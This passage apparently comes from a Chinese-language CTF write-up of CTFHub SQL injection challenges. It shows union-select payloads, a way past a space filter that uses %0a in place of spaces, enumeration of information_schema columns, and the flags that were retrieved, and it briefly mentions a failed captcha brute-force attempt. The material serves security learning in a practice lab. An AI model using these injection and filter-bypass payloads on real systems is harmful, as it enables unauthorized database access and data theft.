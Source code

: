 ```
            <code>select * from news where id=0 union select 1,pzbqdphzty from syowpbidys</code></br>ID: 1</br>Data: ctfhub{d7bf233240ed038c06f6cf0c}  
```

#### 过滤空格

发现含有空格的时候会报错

![1732535962921](image/1124-1130周报/1732535962921.png)

使用%0a绕过空格：

![1732536188579](image/1124-1130周报/1732536188579.png)

%0a是回车经URL编码，所以可以在cyberchef写然后编码更方便一些：

```
?id=0%0Aunion%0Aselect%0A1,group_concat(column_name)%0Afrom%0Ainformation_schema.columns%0Awhere%0Atable_schema=database()
ID: 1
Data: id,data,xthjtozvay
```

```
?id=0%0Aunion%0Aselect%0A1,xthjtozvay%0Afrom%0Axdhqptxeoq
ID: 1
Data: ctfhub{17dae8f9af7fd60aacae7f1a}
```

#### 默认口令

做的时候以为是有验证码的爆破，结果试的时候发现验证码的正确率实在太低，根本出不来。
